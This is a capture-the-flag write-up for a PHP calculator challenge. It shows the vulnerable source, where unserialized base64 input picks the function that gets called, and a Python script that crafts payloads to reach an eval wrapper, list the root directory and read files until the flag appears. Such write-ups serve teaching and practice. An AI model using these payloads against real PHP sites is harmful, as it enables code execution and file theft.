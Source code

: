 ## Overview
After opening the website, we are greeted with a simple calculator (obviously). Lets input ```1 + 2``` to the textbox.

```
Result:
1 + 2 = 3
```
As expected, 1 + 2 does equal to 3. The interesting part of this is the url. 

```103.185.38.238:17227/?input=YTozOntpOjA7czozOiJzdW0iO2k6MTtzOjE6IjEiO2k6MjtzOjE6IjIiO30=```

It has some sort of encrypted input query that I assumed is base64. Let's try to decode the input with this script.

```
import base64

query = "YTozOntpOjA7czozOiJzdW0iO2k6MTtzOjE6IjEiO2k6MjtzOjE6IjIiO30="
query_b64 = base64.b64decode(query)
print(query_b64.decode("ascii"))
```
After running the script, we got this very interesting data.

```a:3:{i:0;s:3:"sum";i:1;s:1:"1";i:2;s:1:"2";}```

Let's dissect this data.

```
a:3  # Array of length 3
i:0 # Index of the array
s:3 # Size of this index's data
"sum" # The data on this index
```

Okay, that's very insightful. But, this is a web exploitation challenge. Let's look at the PHP of this website since this challenge is tagged PHP.

```
<?php
function format_error($expre) {
    return "<p><b>Format error:</b> the input is given in wrong format!</p>";
}

function opp_error($expre) {
    return "<p><b>Operator error:</b> operator for ".$expre." is not available!</p>";
}

function sum($a, $b) {
    $result = strval(intval($a) + intval($b));
    return "<p><b>Result:</b><br>".$a." + ".$b." = ".$result."</p>";
}

function sub($a, $b) {
    $result = strval(intval($a) - intval($b));
    return "<p><b>Result:</b><br>".$a." - ".$b." = ".$result."</p>";
}

function mul($a, $b) {
    $result = strval(intval($a) * intval($b));
    return "<p><b>Result:</b><br>".$a." * ".$b." = ".$result."</p>";
}

function div($a, $b) {
    $result = strval(intval($a) / intval($b));
    return "<p><b>Result:</b><br>".$a." / ".$b." = ".$result."</p>";
}

function evalit($code) {
    return eval($code);
}

if ($_SERVER["REQUEST_METHOD"] == "GET") {
    if (!empty($_GET["input"])) {
        $decoded = base64_decode($_GET["input"]);
        $out = unserialize($decoded);
        if ($out[2] != null) {
            $view = $out[0]($out[1], $out[2]);
            echo $view;
        }
        else {
            $view = $out[0]($out[1]);
            echo $view;
        }
    }
}

?>
```

The ```evalit``` function is definitely the key, since it can allow us to run code. But how can we input something to run the ```evalit``` function?

The ```sum``` function and other math functions have 2 arguments. So to run ```evalit```, we need to find other functions with only one argument. The easiest one to get is probably the ```format_error``` function. 

Let's input random stuff and get the input query!

```
a:2:{i:0;s:12:"format_error";i:1;s:4:"asdf";}
```

Woah, the function's name is literally there! So let's just change the fuction name and input and let's see if it works!

```
a:2:{i:0;s:6:"evalit";i:1;s:20:"echo "Hello world!";";}
```

Next step is to encode it to base 64 and put it in the url!

```
103.185.38.238:17227/?input=YToyOntpOjA7czo2OiJldmFsaXQiO2k6MTtzOjIwOiJlY2hvICJIZWxsbyB3b3JsZCEiOyI7fQ==
```

And voila! The hello world is there. Now what? Well, the description said there is some interesting stuff in root. So let's go there!
Let's scan the root directory using this python script!

```
import base64

payload = "echo join(', ', scandir('/'));"
query = "a:2:{i:0;s:6:\"evalit\";i:1;s:" + str(len(payload)) + ":\"" + payload + "\";}"
query_b64 = query.encode("ascii")
query_b64 = base64.b64encode(query_b64)
print(query)
print("103.185.38.238:17227/?input=" + query_b64.decode("ascii"))
```

After that, let's look at the output!
```., .., .dockerenv, Hey.txt, Heyhey.txt, Heyheyhey.txt, Heyheyheyhey.txt, bin, boot, dev, etc, home, lib, lib64, media, mnt, opt, proc, root, run, sbin, srv, sys, tmp, usr, var ```

We see some txt files in there. It could be the flag! Let's try one of them.
Let's change the payload.
```payload = "echo file_get_contents('/Hey.txt');"
Output: Sorry, wrong guy :v ```

Bruh, let's try the next one.

```payload = "echo file_get_contents('/Heyhey.txt');"
Output: Hai! Hai! (^_^)  ```

Still wrong, the next one maybe?

```payload = "echo file_get_contents('/Heyheyhey.txt');"
Output: COMPFEST14{welcome_to_the_root} ```

And just like that, the flag is found!

##### solved by kawijayaa

